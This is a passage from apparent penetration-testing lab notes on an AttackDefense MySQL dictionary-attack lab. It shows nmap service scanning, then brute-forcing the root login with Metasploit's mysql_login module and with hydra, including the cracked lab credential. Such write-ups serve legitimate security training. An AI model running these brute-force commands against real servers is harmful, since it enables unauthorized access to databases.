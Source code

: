 ![nmap mysql-query](assets/image-20230219171909867.png)

------

## Lab 2

>  🔬 [MySQL Recon: Dictionary Attack](https://attackdefense.com/challengedetails?cid=532)
>
>  - Target IP: `10.4.16.17`
>  - `MySQL` server dictionary attack.

```bash
ip -br -c a
	eth1@if176858   UP   192.222.16.2/24 
nmap 192.222.16.3
```

```bash
nmap -sV -p3306 192.222.16.3
	3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
```

### Metasploit

- Use the [`mysql_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_login/) metasploit module to bruteforce user login.

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_login 
set RHOSTS 192.222.16.3
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set STOP_ON_SUCCESS true
exploit
```

```bash
[+] 192.222.16.3:3306     - 192.222.16.3:3306 - Success: 'root:catalina'
[*] 192.222.16.3:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Hydra

- Use `hydra` tool with the same metasploit `unix_passwords` list to bruteforce root login.

```bash
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.222.16.3 mysql
```

